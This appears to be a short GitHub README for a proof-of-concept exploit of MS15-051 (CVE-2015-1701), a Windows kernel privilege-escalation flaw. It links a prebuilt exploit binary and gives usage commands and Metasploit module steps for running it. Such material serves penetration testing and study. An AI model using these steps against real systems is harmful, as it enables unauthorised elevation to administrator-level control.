


# MS15-051

- The POC was from [@hfiref0x](https://github.com/hfiref0x/CVE-2015-1701)

Vulnerability reference:
 * [MS15-051](https://technet.microsoft.com/en-us/library/security/ms15-051.aspx)
 * [CVE-2015-1701](https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/37049-32.exe)
 

## Usage
```
c:\> MS15-051.exe whoami
```
  
  

## load the module within the Metasploit console
```
 msf > use exploit/windows/local/ms15_051_client_copy_image
      msf exploit(ms15_051_client_copy_image) > show targets
            ...targets...
      msf exploit(ms15_051_client_copy_image) > set TARGET <target-id>
      msf exploit(ms15_051_client_copy_image) > show options
            ...show and set options...
      msf exploit(ms15_051_client_copy_image) > exploit
```

### Links

* [Win32k Elevation of Privilege Vulnerability](https://www.fireeye.com/blog/threat-research/2015/04/probable_apt28_useo.html)


